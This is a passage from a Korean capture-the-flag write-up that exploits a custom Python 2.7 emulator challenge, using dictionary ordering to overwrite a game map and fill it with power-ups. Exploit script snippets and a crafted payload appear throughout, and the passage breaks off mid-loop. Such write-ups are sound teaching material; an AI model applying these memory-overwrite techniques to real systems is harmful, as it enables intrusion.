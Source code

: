 python 2.7에서는 dictionary를 순회할 때 랜덤한 순서로 순회하는데다, 값을 이후에 추가한다고 하더라도 순서가 맨 뒤에 오는 것이 아니라 중간에 낄 수도 있다.
``` python
Python 2.7.18 (default, Oct 15 2023, 16:43:11) 
[GCC 11.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> a = {"A" : 1, "B" : 2, "C" : 3, "D" : 4}
>>> for key in a:
...     print key,
... 
A C B D
>>> a["E"] = 5
>>> for key in a:
...     print key,
... 
A C B E D
```
따라서 `Memory` 객체의 `pages` dictionary에 key-value 값을 추가한다면 높은 확률로 중간에 key가 삽입될 것이다.

실제로 emulator가 `pages` dictionary를 생성하고 unmapping을 하는 과정을 따라해보면 다음과 같은 결과를 얻을 수 있다.
``` python
>>> pages = {}
>>> for page in range(0, 2 ** 20, 0x1000):                      # Memory.__init__()
...     pages[page] = 0
... 
>>> pages[0x100000] = 0                                         # Memory.set_perm()
>>> for index, (page, perm) in enumerate(pages.items()):        # Memory.allocate()
...     if page == 0x100000:
...         print "page 0x100000 is at %d-th index" % index
... 
page 0x100000 is at 98-th index
>>> print "last page %s is at %d-th index" % (hex(page), index)
last page 0x78000 is at 256-th index
```
따라서 마지막 `page`인 `0x78000` 영역을 남겨놓고 모든 영역을 할당하기 위해 다음과 같이 payload를 구성했다.
``` python
    for i in range(0xfa):
        log.info(f"buying : {hex(i + 1)} / 0xfa")
        buy_dog(s, b"n")
```
이러면 `dog_count_0x1000`는 `0xfa`까지 증가했을 것이고, `sell_dog_0x304()`를 이용하여 `0x6`만큼 더 증가시키는 방식은 다음과 같다.
``` python
    for i in range(6):
        log.info(f"selling and buying : {hex(i + 1)} / 0x6")
        sell_dog(s, 0x100000)
        buy_dog(s, b"n")
```
마지막으로 남은 `0x78000` 메모리를 할당받으면 마침내 `dog_count_0x1000`는 `0x101`이 되면서 `map_0x1303`이 `0x78000`으로 덮이게 된다.

이제 `avatar`를 그리기 위해 입력하는 값이 그대로 `map` 정보가 되므로, 나의 위치와 `boss`를 제외한 `map`을 모두 `power up`을 의미하는 `*`으로 채워넣기 위한 payload는 다음과 같다.
``` python
    payload = b"@"
    payload += b"*" * 3598
    payload += b"z"
    buy_dog(s, b"y", payload)
```
이제 남은 것은 충분히 `power`를 늘려서 `boss`와 싸우는 것인데, `boss`를 이기기 위한 조건은 `power`가 0x2bc보다 크거나 같은 것이고 `power up`을 하면 `power`가 `0x5`만큼 증가하므로, 최소 121번의 `power up`이 필요하다
``` python
>>> (0x2bc - 0x61) / 0x5
120.6
```
현재 `map`의 모든 자리가 `*`으로 채워져있으므로 어디로든 121번 전에 이동한 적이 없는 곳으로 이동하면 된다.
``` python
    for i in range(2):
        for j in range(60):
```